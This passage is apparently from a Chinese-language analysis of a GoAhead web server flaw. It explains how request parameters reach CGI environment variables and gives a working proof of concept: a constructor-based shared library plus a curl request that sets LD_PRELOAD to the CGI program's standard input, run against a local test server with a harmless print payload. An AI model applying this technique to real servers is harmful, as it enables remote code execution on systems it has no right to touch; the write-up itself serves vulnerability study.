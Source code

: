 ```c
for (n = 0, s = hashFirst(wp->vars); s != NULL; s = hashNext(wp->vars, s)) {
    if (s->content.valid && s->content.type == string &&
        strcmp(s->name.value.string, "REMOTE_HOST") != 0 &&
        strcmp(s->name.value.string, "HTTP_AUTHORIZATION") != 0) {
        envp[n++] = sfmt("%s=%s", s->name.value.string, s->content.value.string);
        trace(5, "Env[%d] %s", n, envp[n-1]);
        if (n >= envpsize) {
            envpsize *= 2;
            envp = wrealloc(envp, envpsize * sizeof(char *));
        }
    }
}
*(envp+n) = NULL;
```

对于此漏洞的利用，先补充下CGI调用的相关基础知识。Web server为了增加自身数据处理的可扩展性，会采用CGI（Common Gateway Interface，通用网关接口）标准启动外部程序处理用户的请求，并将外部程序处理数据的结果通过Web server返回给用户。Web server会将用户提交的数据通过环境变量和标准输入传递给程序，程序执行完毕之后通过标准输出传递给Web server，然后Web server再返回给用户。

因此，针对该漏洞的一种利用方式就是通过POST请求头设置环境变量LD_PRELOAD为CGI程序自身的标准输入（即POST请求体），CGI程序运行时就会自动加载请求体中构造的动态链接库。

如下，先定义一个构造函数，该函数会先于CGI程序的main函数被调用。

```c
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

使用如下命令构造出动态链接库，使用cat命令测试，的确能够运行。

```plaintext
$ gcc -shared -fPIC ./payload.c -o payload.so
$ LD_PRELOAD=./payload.so cat /dev/null
Hello: World!
```

然后使用curl构造POC如下，发送请求后可以看到的确执行了动态链接库中的函数并输出结果。此处对POC简单解释下，GoAhead调用CGI程序前，会对CGI程序的环境变量和标准输入进行设置。data-binary参数是将payload.so作为CGI程序的标准输入；LD_PRELOAD=/proc/self/fd/0，则是让CGI程序在运行时从自身的标准输入加载动态链接库，也就是POST请求体中传入的payload.so。

```plaintext
$ curl -X POST --data-binary @payload.so http://127.0.0.1/cgi-bin/cgitest\?LD_PRELOAD\=/proc/self/fd/0 -i | head
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17602    0  2026  100 15576   171k  1317k --:--:-- --:--:-- --:--:-- 1562k
HTTP/1.1 200 OK
Date: Mon Sep 25 03:01:32 2023
Transfer-Encoding: chunked
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
Pragma: no-cache
Cache-Control: no-cache
Hello:  World!
Content-type: text/html
```
